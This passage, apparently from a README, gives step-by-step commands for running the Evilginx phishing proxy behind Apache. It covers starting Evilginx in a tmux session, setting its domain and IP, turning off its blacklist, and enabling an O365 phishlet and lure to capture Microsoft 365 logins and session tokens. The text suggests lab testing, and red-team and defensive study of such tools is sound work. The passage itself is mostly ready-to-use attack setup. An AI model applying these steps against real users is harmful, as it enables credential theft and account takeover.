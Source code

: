 ```
sudo apt install tmux -y
```

Start Evilginx in developer mode (using tmux to avoid losing the session):

```
tmux new-session -s evilginx
```

```
cd ~/evilginx/
```

```
./evilginx -developer
```

(To re-attach to the tmux session use `tmux attach-session -t evilginx`)


Evilginx Config:

```
config domain nolemitm.com
```

```
config ipv4 127.0.0.1
```


**IMPORTANT:** Set Evilginx Blacklist mode to NoAdd to avoid blacklisting Apache since all requests will be coming from Apache and not the actual visitor IP.

```
blacklist noadd
```



Setup Phishlet and Lure:

```
phishlets hostname O365 nolemitm.com
```

```
phishlets enable O365
```

```
lures create O365
```

```
lures get-url 0
```


Copy the lure URL and visit it from your browser (use Guest user on Chrome to avoid having to delete all saved/cached data between tests).



# Useful Resources
